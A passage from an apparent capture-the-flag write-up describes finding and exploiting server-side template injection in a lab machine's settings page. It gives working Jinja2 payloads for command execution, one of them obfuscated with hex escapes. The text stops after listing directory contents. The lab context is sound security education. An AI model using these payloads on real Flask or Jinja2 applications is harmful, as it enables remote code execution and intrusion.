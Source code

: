 ![](https://i.imgur.com/ZkUHPcv.png)


### SSTI


#### Detection


`http://internal-administration.goodgames.htb/settings` has a feature for changing username, Brithday, and phone number:

![](https://i.imgur.com/APoq8hb.png)


Intercepting the request with Burp Suite, I can see that I can tamper data on **name=** parameter:

![](https://i.imgur.com/1Ui5707.png)


With test username **hello world** requested, web app response with **hello world**:

![](https://i.imgur.com/3nXk3UH.png)


I will try injection alert script and it seems like the web app is actually reading the script:

![](https://i.imgur.com/jIF0Q5e.png)


Now on the browser, it confirms SSTI vulnerability.

![](https://i.imgur.com/eXv2drC.png)


#### Exploitation

I will follow [this list of payloads](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/ssti.txt) to attempt on advanced SSTI.

Trying with `{{7*7}} = {{7*7}}` shows **49=49**:

![](https://i.imgur.com/V5lo0o3.png)


Using the command below, I can execute command `id`:

```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

![](https://i.imgur.com/P3Nmx7H.png)



Using the command below I can list files in current directory:

```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

